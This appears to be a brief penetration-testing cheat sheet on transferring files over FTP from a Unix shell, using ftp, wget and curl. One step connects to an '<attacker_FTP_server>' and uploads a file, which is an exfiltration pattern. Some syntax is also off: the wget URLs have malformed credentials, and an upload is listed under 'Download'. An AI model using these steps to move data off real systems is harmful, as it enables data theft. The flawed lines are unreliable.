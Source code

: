 # Unix Shell

## 01 - Usage

### 1.1 - Download

```
$ ftp <attacker_FTP_server>

ftp> put file.txt

$ wget -m ftp://<username>@<password>@<IP>

$ wget -m --no-passive ftp://<username>@<password>@<IP>

$ curl -u <username>:<password> ftp://<IP>/file.txt
```

### 1.2 - Upload

```
$ curl -u <username>:<password> -T /path/to/file.txt ftp://<IP>
```

---
## References

- [TheGeekDiary: How to Use FTP Under Linux to Transfer Files](https://www.thegeekdiary.com/how-to-use-ftp-under-linux-to-transfer-files/)
